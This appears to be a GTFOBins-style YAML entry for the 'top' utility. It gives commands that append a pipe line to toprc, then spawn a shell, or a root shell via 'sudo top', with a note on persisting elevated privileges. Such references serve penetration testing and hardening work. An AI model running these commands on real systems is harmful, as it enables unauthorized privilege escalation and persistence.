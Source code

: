 ```yaml
---
description: This requires that an existing configuration file is present, to create one run `top` then type `Wq`. Note down the actual configuration file path and use it in the below examples.
functions:
  shell:
    - code: |
        echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>~/.config/procps/toprc
        top
        # press return twice
        reset
  sudo:
    - description: This requires that the root configuration file is writable and might be used to persist elevated privileges.
      code: |
        echo -e 'pipe\tx\texec /bin/sh 1>&0 2>&0' >>/root/.config/procps/toprc
        sudo top
        # press return twice
        reset
---
```

